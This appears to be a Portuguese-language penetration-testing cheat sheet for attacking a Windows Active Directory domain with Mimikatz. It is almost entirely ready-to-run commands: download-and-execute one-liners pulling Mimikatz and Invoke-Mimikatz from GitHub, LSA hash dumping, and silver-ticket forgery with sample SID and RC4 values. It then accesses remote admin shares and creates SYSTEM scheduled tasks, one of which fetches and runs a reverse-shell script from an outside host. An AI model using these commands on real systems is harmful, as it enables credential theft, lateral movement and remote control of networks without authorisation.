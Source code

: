 ```
curl https://github.com/n0ts0cial/oscp/raw/main/x64/mimikatz.exe -Outfile mimikatz.exe
.\mimikatz.exe
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1 -Outfile Invoke-Mimikatz.ps1
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
```
##### SILVER TICKET MIMIKATZ - PEGAR O HASH DO COMPUTADOR ALVO (COMO ADMIN):
```
privilege::debug
lsadump::lsa /patch
```
##### SILVER TICKET MIMIKATZ - GERAR TICKET P SERVICO NO COMPUTADOR ALVO EM QQ MAQUINA (TERMINAL NORMAL):
```
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:server01.tech.local /service:cifs /rc4:6d979159a6647db4b1df73dd3e70f36b /user:administrator /ptt
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:server01 /service:cifs /rc4:6d979159a6647db4b1df73dd3e70f36b /user:administrator /ptt
```
##### SILVER TICKET MIMIKATZ - GERAR TICKET P SERVICO NO COMPUTADOR ALVO EM QQ MAQUINA (TERMINAL NORMAL): ACESSAR COMPARTILHAMENTOS
```
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:server01.tech.local /service:cifs /rc4:6d979159a6647db4b1df73dd3e70f36b /user:administrator /ptt
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:server01 /service:cifs /rc4:6d979159a6647db4b1df73dd3e70f36b /user:administrator /ptt
```
```
dir \\server01\c$
dir \\server01.tech.local\c$
```
##### SILVER TICKET MIMIKATZ - GERAR TICKET P SERVICO NO COMPUTADOR ALVO EM QQ MAQUINA (TERMINAL NORMAL): CRIAR TAREFAS AGENDADAS
```
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:server01.tech.local /service:host /rc4:6d979159a6647db4b1df73dd3e70f36b /user:administrator /ptt
kerberos::golden /domain:tech.local /sid:S-1-5-21-4215187987-3124207031-433979976 /target:server01 /service:host /rc4:6d979159a6647db4b1df73dd3e70f36b /user:administrator /ptt
```
CRIAR TAREFA AGENDADA
```
schtasks /create /S server01 /SC WEEKLY /RU "NT Authority\SYSTEM" /TN "STCHECK" /TR "cmd /c whoami > c:\eu.txt"
schtasks /create /S server01.tech.local /SC WEEKLY /RU "NT Authority\SYSTEM" /TN "STCHECK" /TR "cmd /c whoami > c:\eu.txt"
```
RODAR TAREFA AGENDADA
```
schtasks /RUN /S server01 /TN "STCHECK"
schtasks /RUN /S server01.tech.local /TN "STCHECK"
```
CRIAR TAREFA AGENDADA PARA SHEL LREVERSO:
```
schtasks /create /S tech-dc01 /SC WEEKLY /RU "NT Authority\SYSTEM" /TN "REVERSESHELL" /TR "powershell.exe -c 'IEX(New-Object System.Net.WebClient).DownloadString(''https://github.com/n0ts0cial/oscp/raw/main/Invoke-PowerShellTcp2.ps1''')'"
```